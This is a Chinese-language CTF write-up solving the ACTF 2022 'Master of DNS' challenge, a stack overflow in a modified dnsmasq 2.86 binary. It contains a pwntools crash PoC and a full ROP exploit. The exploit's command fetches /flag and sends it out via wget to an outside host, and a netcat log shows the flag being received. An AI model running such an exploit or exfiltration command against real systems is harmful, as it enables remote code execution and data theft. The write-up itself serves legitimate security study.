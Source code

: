 ```yaml
---
title: ACTF 2022 Pwn Master of DNS
categories:
- CTF/Pwn
tags: 
---
```


> 更新中...

![image](https://xuanxuanblingbling.github.io/assets/pic/dns/actf.png)

附件：[dns.zip](https://xuanxuanblingbling.github.io/assets/attachment/actf/dns.zip)

## 确认软件

题目是个DNS服务器:

- PC中常见[BIND](https://www.isc.org/bind/)
- IoT中常见[Dnsmasq](https://thekelleys.org.uk/dnsmasq/doc.html)

虽然题目把具体的dns软件名隐去了，但通过2.86的版本号还是能很明显的看出来，软件为[dnsmasq-2.86.tar.gz](https://thekelleys.org.uk/dnsmasq/dnsmasq-2.86.tar.gz)：

```c
➜  ./dns --help
Usage: dns [options]

➜  ./dns -v    
Dns version 2.86
```

对于给出真实软件的CTF题目，漏洞可能是真实存在的1day或者0day，也有可能是出题人埋进去的一个漏洞。对于dnsmasq，能找到一些堆溢出引发的DoS，以及对较老的2.78版本（2017年）的RCE，但是没有找到新版本可RCE的漏洞或者披露文章，所以看起来埋洞的可能性更大。

- [Behind the Masq: Yet more DNS, and DHCP, vulnerabilities](https://security.googleblog.com/2017/10/behind-masq-yet-more-dns-and-dhcp.html)
- [https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=dnsmasq](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=dnsmasq)
- [Dnsmasq < 2.78 - Heap Overflow](https://www.exploit-db.com/exploits/42942)

## 漏洞挖掘

首先进行基本检查，x86，无符号，没canary，可以猜测大概率是栈溢出：

```c
➜  file ./dns
./dns: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), stripped
➜  checksec ./dns
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

虽然给出的二进制无符号，但其也是一款开源软件，因此基本不需要逆向。对于本题，一款有源码的dns软件，我们有四种角度，或者说手段，来处理他，认识他：

- 源码
- 二进制
- gdb调试
- 流量调试

### 二进制比对

```
➜  strings ./dns | grep GCC
GCC: (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0
➜  gcc --version
gcc (Ubuntu 9.4.0-1ubuntu1~20.04.1) 9.4.0
```

```
CFLAGS        = -m32 -fno-stack-protector -Wall -W 
LDFLAGS       = -m32 -no-pie 
```

```
➜  make
➜  file ./src/dnsmasq 
./src/dnsmasq: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), not stripped
```

![image](https://xuanxuanblingbling.github.io/assets/pic/dns/bindiff1.png)

![image](https://xuanxuanblingbling.github.io/assets/pic/dns/bindiff2.png)

![image](https://xuanxuanblingbling.github.io/assets/pic/dns/memcpy.png)

> dnsmasq-2.86/src/rfc1035.c

```c
int extract_name(struct dns_header *header, size_t plen, unsigned char **pp, 
		 char *name, int isExtract, int extrabytes)
```

### gdb调试

```
.text:0804F435                 push    [ebp+n]         ; n
.text:0804F438                 push    [ebp+src]       ; src
.text:0804F43B                 lea     eax, [ebp+dest]
.text:0804F441                 push    eax             ; dest
.text:0804F442                 mov     ebx, edx
.text:0804F444                 call    _memcpy
```

```
➜  ./dns -C ./dns.conf 
➜  ps -ef | grep dns
xuanxuan    6363    1914  0 08:06 ?        00:00:00 ./dns -C ./dns.conf
```

```
➜  gdb --pid 6363  
ptrace: Operation not permitted.
➜  sudo gdb --pid 6363
pwndbg> b * 0x804F444
Breakpoint 1 at 0x804f444
pwndbg> c

```

```
➜  dig @127.0.0.1 -p 9999 baidu.com
```

```
Breakpoint 1, 0x0804f444 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────[ DISASM ]───────────────────────────────────
 ► 0x804f444    call   memcpy@plt                     <memcpy@plt>
        dest: 0xffbfc2f7 ◂— 0x9bea000
        src: 0x9f075b0 ◂— 'baidu.com'
        n: 0xa
```


```
➜  dig @127.0.0.1 -p 9999 baidu.comaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

dig: 'baidu.comaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa' 
is not a legal IDNA2008 name (domain label longer than 63 characters), use +noidnin
```

### 流量调试


```
➜  dig @127.0.0.1 -p 9999 baidu.com
```

![image](https://xuanxuanblingbling.github.io/assets/pic/dns/wireshark.png)

```
0000   cd 36 01 20 00 01 00 00 00 00 00 01 05 62 61 69
0010   64 75 03 63 6f 6d 00 00 01 00 01
```

可以用scapy，但是更喜欢彻底控制每一个字节


```python
from pwn import *

io = remote("127.0.0.1",9999,typ='udp')

head    = bytes.fromhex("000001200001000000000001")
payload = (b'\x3f'+b'a'*0x3f)*16 + b'\x00'
end     = bytes.fromhex("00010001")

io.send(head + payload + end)
```

```
pwndbg> c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────── ───────[ REGISTERS ]───────────────────────────
*EBX  0x612e6161 ('aa.a')
*ECX  0xffb99b00 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
*EDX  0xffb997a7 ◂— 0x61616161 ('aaaa')
 EDI  0xf7f35000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1ead6c
 ESI  0x940a9c0 ◂— 0x2910
*EBP  0x61616161 ('aaaa')
*ESP  0xffb99b30 ◂— 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
*EIP  0x61616161 ('aaaa')
───────────────────────[ DISASM ]────────────────────────────
Invalid address 0x61616161
```


## 漏洞利用

```
rop：

1. 寻找fd
2. 修栈
3. execl popen

popen 字符串

查看控制流劫持时状态：

- 只在堆上栈上
- ecx ebx寄存器有用

找到popen gadget很可惜，差一点

想办法交换，然后找gadget，可以add eax，edx

但是不能把eax变0，想到加法

但是edx指向的栈空间之后会被使用，所以将cmd拼到rop后，最终完成

注意不能有空字节，不能有0x2e，所以想rop只能出在32位上了
```

```python
from pwn import *
context(log_level='debug')

io = remote("59.63.224.108",9999,typ='udp')

vps = b"127.0.0.1"
cmd = b'wget `echo -e "%s"`/`cat /flag`' % (vps.replace(b'.',b'\\x2e'))

# 0x08059d44 : pop eax ; ret
# 0x08094d60 : add eax, 0x11038 ; nop ; pop ebp ; ret
# 0x0804b639 : add eax, edx ; add esp, 0x10 ; pop ebx ; pop ebp ; ret
# 0x0807ec72 : pop edx ; ret

rop  = p32(0x08059d44)      # pop eax ; ret
rop += p32(0xfffef38d)      # 0xfffef38d + 0x11038 = 0x3c5, eax = edx + 0x3c5, eax will point to cmd 
rop += p32(0x08094d60)      # add eax, 0x11038 ; nop ; pop ebp ; ret
rop += p32(0x11223344)      # padding
rop += p32(0x0804b639)      # add eax, edx ; add esp, 0x10 ; pop ebx ; pop ebp ; ret
rop += p32(0x11223344) * 6  # padding
rop += p32(0x0807ec72)      # pop edx ; ret
rop += p32(0x0809C7B2)      # string r
rop += p32(0x08071802)      # push edx(r) ; push eax(cmd) ; call popen

assert(len(rop) < 63)
assert(len(cmd) < 59)

payload   = (b'\x3f'+b'a'*0x3f) * 14
payload  +=  b'\x04'+b'a'*4
payload  +=  b'\x3f'+rop.ljust(0x3f,b'a')
payload  +=  chr(len(cmd)).encode() + cmd
payload  +=  b'\x00'

head = bytes.fromhex("000001200001000000000001")
end  = bytes.fromhex("00010001")
io.send(head+payload+end)
```


```
ubuntu@VM-16-6-ubuntu:~$ sudo nc -l 80
GET /ACTF%7Bd0M@1n_Po1nt3rs_aR3_VuLn3rab1e_1d7a90a63039831c7fcaa53b766d5b2d!!!!!%7D HTTP/1.1
User-Agent: Wget/1.20.3 (linux-gnu)
Accept: */*
Accept-Encoding: identity
Connection: Keep-Alive
```


```
ACTF{d0M@1n_Po1nt3rs_aR3_VuLn3rab1e_1d7a90a63039831c7fcaa53b766d5b2d!!!!!}
```